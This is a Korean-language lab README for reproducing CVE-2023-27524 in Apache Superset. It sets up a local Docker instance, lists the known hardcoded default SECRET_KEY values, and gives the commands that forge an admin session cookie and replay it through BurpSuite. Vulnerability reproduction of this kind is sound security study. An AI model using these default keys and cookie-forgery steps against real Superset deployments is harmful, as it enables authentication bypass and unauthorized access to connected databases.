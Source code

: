 ## Apache Superset Hardcoded JWT Secret Key Leads to Authentication Bypass (CVE-2023-27524)
Apache Superset은 시각적, 직관적, 대화형으로 설계된 오픈소스 데이터 탐색 및 시각화 플랫폼입니다.
Apache Superset에는 하드코딩된 JWT 비밀 키 취약점(CVE-2023-27524)이 포함되어 있습니다.
이 애플리케이션은 `SECRET_KEY`세션 쿠키에 서명하는 데 사용되는 기본값과 함께 제공됩니다. 
관리자가 이 기본 키를 변경하지 못하면 공격자는 유효한 세션 쿠키를 위조하고 관리자를 포함한 모든 사용자로 인증할 수 있습니다. 
이를 통해 Superset 대시보드, 연결된 데이터베이스에 대한 무단 액세스가 허용되고 잠재적으로 원격 코드 실행으로 이어질 수 있습니다.

- Ubuntu 24.04 환경에서 진행하였습니다.
### 환경 설정

```bash
# git clone --depth 1 [https://github.com/{repositry주소}.git](https://github.com/ggam-yong/ch-vulhub.git)
git clone --depth 1 https://github.com/ggam-yong/ch-vulhub.git
cd ch-vulhub/superset/CVE-2023-27524
```

다음 명령을 실행하여 Apache Superset 2.0.1 서버를 시작합니다
```bash
docker compose up -d
```
---

### 취약점 재생산
![로그인페이지](login.png)

`firefox에서 http://127.0.0.1:8088` 에 접속합니다. 기본 로그인 자격 증명은 admin/vulhub입니다.

Superset이 다음의 하드코딩된 기본값 중 하나를 사용하기 때문에 취약점이 존재합니다 `SECRET_KEY`.

- `\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h`(버전 < 1.4.1)
- `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET`(버전 >= 1.4.1)
- `thisISaSECRET_1234`(배포 템플릿)
- `YOUR_OWN_RANDOM_GENERATED_SECRET_KEY`(선적 서류 비치)
- `TEST_NON_DEV_SECRET`(도커 컴포즈)

---

### 관리자 세션 쿠키 획득

[CVE-2023-27524.py를](https://github.com/ggam-yong/ch-vulhub/blob/main/superset/CVE-2023-27524/CVE-2023-27524.py) 사용하여 관리자 세션쿠키로 위조합니다. 이때 관리자 세션쿠키는 user_id 가 1입니다. 이 스크립트는 알려진 기본 비밀 키를 사용하여 세션 쿠키를 크랙하려고 시도합니다.
# Install dependencies
pip install -r requirements.txt

# Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://127.0.0.1:8088 --id 1 --validate

![관리자 쿠키](cookie.png)

쿠키 값에 우의 JWT 토큰을 사용하면 `Cookie: eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.Z_...` Superset의 백엔드 엔드포인트에 액세스할 수 있습니다.

---

### BurpSuite

우분투 환경에서 BurpSuite와 chrome browser를 설치한 후 다음의 명령어를 통해 BurpSuiteCommunity를 실행해 줍니다. 


```bash
cd ~/BurpSuiteCommunity
./BurpSuiteCommunity
```
![변조전](guest.png)
![변조 후](admin.png)


요청의 Cookie: session 값을 획득한 값으로 위조하면 Superset의 백엔드 엔드포인트에 액세스할 수 있습니다.

![성공](backend)






